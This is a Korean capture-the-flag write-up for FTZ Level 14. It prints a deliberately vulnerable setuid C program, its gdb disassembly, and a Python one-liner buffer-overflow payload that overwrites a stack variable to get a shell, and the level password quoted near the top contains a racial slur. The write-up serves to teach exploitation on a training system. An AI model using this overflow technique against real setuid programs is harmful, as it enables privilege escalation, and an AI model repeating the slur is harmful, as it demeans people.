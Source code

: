 ```yaml
---
sort: 14
---
```


# Level 14

```note
id : level14

password : what that nigga want?
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdio.h>
#include <unistd.h>
 
main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```
지역변수 check만 변조하면 되는 간단한 문제다.<br><br>
GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048490 (main+0):	push   %ebp
0x08048491 (main+1):	mov    %esp,%ebp
0x08048493 (main+3):	sub    $0x38,%esp
0x08048496 (main+6):	sub    $0x4,%esp
0x08048499 (main+9):	pushl  0x8049664
0x0804849f (main+15):	push   $0x2d

<b>0x080484a1 (main+17):	lea    0xffffffc8(%ebp),%eax
0x080484a4 (main+20):	push   %eax
0x080484a5 (main+21):	call   0x8048360 (fgets) </b>

0x080484aa (main+26):	add    $0x10,%esp

<b>0x080484ad (main+29):	cmpl   $0xdeadbeef,0xfffffff0(%ebp) </b>

0x080484b4 (main+36):	jne    0x80484db (main+75)
0x080484b6 (main+38):	sub    $0x8,%esp
0x080484b9 (main+41):	push   $0xc17
0x080484be (main+46):	push   $0xc17
0x080484c3 (main+51):	call   0x8048380 (setreuid)
0x080484c8 (main+56):	add    $0x10,%esp
0x080484cb (main+59):	sub    $0xc,%esp
0x080484ce (main+62):	push   $0x8048548
0x080484d3 (main+67):	call   0x8048340 (system)
0x080484d8 (main+72):	add    $0x10,%esp
0x080484db (main+75):	leave  
0x080484dc (main+76):	ret    
0x080484dd (main+77):	lea    0x0(%esi),%esi
</pre>

level13과 거의 같은 문제다. 빠르게 넘어가자.

```bash
# padding 0x28 byte + 0xdeadbeef
[level14@ftz level14]$ (python -c "print('A'*0x28+'\xef\xbe\xad\xde\n')";cat) | ./attackme 
my-pass
```

```tip
## 알게 된 점

buffer overflow
```